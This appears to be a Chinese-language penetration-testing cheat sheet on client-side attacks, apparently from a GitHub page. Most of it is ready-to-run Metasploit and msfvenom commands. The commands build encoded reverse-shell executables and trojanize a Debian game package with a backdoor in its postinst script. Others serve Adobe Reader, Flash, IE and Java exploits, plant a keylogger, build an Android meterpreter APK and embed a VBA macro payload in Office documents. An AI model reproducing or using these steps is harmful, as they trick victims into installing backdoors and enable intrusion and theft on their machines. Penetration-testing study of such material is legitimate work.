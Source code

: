 

# 客户端渗透

* 原理
* 诱骗被害者执行 Payload（windows）
* 诱骗被害者执行 Payload（Linux Deb安装包）
* 利用Acrobat Reader漏洞执行payload 
* 利用Flash插件漏洞执行payload
* 利用 IE 浏览器漏洞执行 payload
* 利用 JRE 漏洞执行payload
* 生成 Android 后门程序
* VBScript 感染方式


## 原理
> * 在无法突破网络边界的情况下转而攻击客户端
    - 社会工程学攻击
    - 进而渗透线上业务网络
> * 含有漏洞利用代码的WEB站点
    - 利用客户端漏洞
> * 含有漏洞利用代码的DOC、PDF文档
> * 诱骗被害者执行Payload

## 诱骗被害者执行 Payload（windows）
* msfvenom
``` 
msfvenom --payload-options -p windows/shell/reverse_tcp
msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp　LHOST=1.1.1.1 LPORT=4444 -b "\x00" -e x86/shikata_ga_nai -f exe -o  1.exe
```

* msfconsole
``` 
use exploit/multi/handler
set payload windows/shell/reverse_tcp
set LHOST 1.1.1.1
set LPORT 4444
exploit
```

## 诱骗被害者执行 Payload（Linux Deb安装包）
``` 
apt-get --download-only install freesweep
dpkg -x freesweep_0.90-1_i386.deb free
mkdir free/DEBIAN && cd free/DEBIAN
vi control
vi postinst
    #!/bin/sh
    sudo chmod 2755 /usr/games/freesweep_scores && /usr/games/freesweep_scores & /usr/games/freesweep &
msfvenom -a x86 --platform linux -p linux/x86/shell/reverse_tcp   LHOST=1.1.1.1 LPORT=4444 -b "\x00" -f elf -o /root/free/usr/games/freesweep_scores
chmod 755 postinst
dpkg-deb --build /root/free
```

## 利用Acrobat Reader漏洞执行payload 
``` 
// 利用的是Adobe Reader 8.1.2的漏洞
// 构造PDF文件
exploit/windows/fileformat/adobe_utilprintf

// 构造恶意网站
exploit/windows/browser/adobe_utilprintf

```
* Meterpreter
``` 
use priv
run post/windows/capture/keylog_recorder
```

## 利用Flash插件漏洞执行payload
``` 
use exploit/multi/browser/adobe_flash_hacking_team_uaf
use exploit/multi/browser/adobe_flash_opaque_background_uaf
use auxiliary/server/browser_autopwn2
```


## 利用 IE 浏览器漏洞执行 payload
``` 
use exploit/windows/browser/ms14_064_ole_code_execution
```

## 利用 JRE 漏洞执行payload
``` 
use exploit/multi/browser/java_jre17_driver_manager
use exploit/multi/browser/java_jre17_jmxbean
use exploit/multi/browser/java_jre17_reflection_types
```

## 生成 Android 后门程序
``` 
use payload/android/meterpreter/reverse_tcp
generate -f a.apk -p android -t raw
```

## VBScript 感染方式
``` 
// 利用 宏 感染 word、excel文档
// 绕过某些基于文件类型检查的安全机制
// 生成 vbscript 脚本
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=1.1.1.1 LPORT=4444 -e x86/shikata_ga_nai  -f vba-exe

// Office 2007 +
//      视图——宏——创建
//      Payload 第一部分粘入VBA代码；
//      Payload 第二部分粘入word文档正文；
// Msf 启动侦听
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
```
